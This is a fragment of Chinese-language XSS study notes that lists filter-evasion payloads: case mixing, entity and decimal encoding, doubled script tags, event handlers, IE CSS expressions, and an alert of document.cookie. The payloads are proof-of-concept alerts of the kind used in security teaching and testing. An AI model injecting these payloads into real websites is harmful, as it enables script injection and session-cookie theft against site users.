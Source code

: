 > >
> > `<IMG SRC=javascript:alert('XSS')>`
> >
> > ==大小写绕过==
> >
> > `<IMG SRC=JaVaScRiPt:alert('XSS')>`
> >
> > ==html编码绕过== 必须使用分号
> >
> > `<IMG SRC=javascript:alert(&quot;XSS&quot;)>`
> >
> > ==双写绕过==
> >
> > > `<scr<script>ipt>alert("XSS")</scr<script>ipt>`
> >
> > ==事件绕过==
> >
> > > `<div onclick ="alert('xss')">`等号后加个空格
> >
> > ==行内样式==利用IE浏览器支持的动态性
> >
> > > `<div style="color: '<'; color: expression(alert('XSS'))">`
> >
> > ==xss定位器==
> >
> > > `”;!–”<XSS>=&{()}`
> >
> > ==重音符绕过==
> >
> > > <IMG SRC=\`javascript:alert(“RSnake says, ‘XSS’”)>
> >
> > ==a标签==
> >
> > `<a onmouseover=alert(document.cookie)>xxs link</a>`
> >
> > ==不使用引号==
> >
> > > `<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>`1
> >
> > ==默认为空的属性==
> >
> > > <IMG SRC= onmouseover=”alert(‘xxs’)”>
> >
> > ==不含src==
> >
> > `<IMG onmouseover="alert(‘xxs’)">`
> >
> > ==10进制编码==
> >
> > > ![image-20200605094121189](xss漏洞总结/image-20200605094121189.png)
> > >
> > > ***不带分号 且高位补零***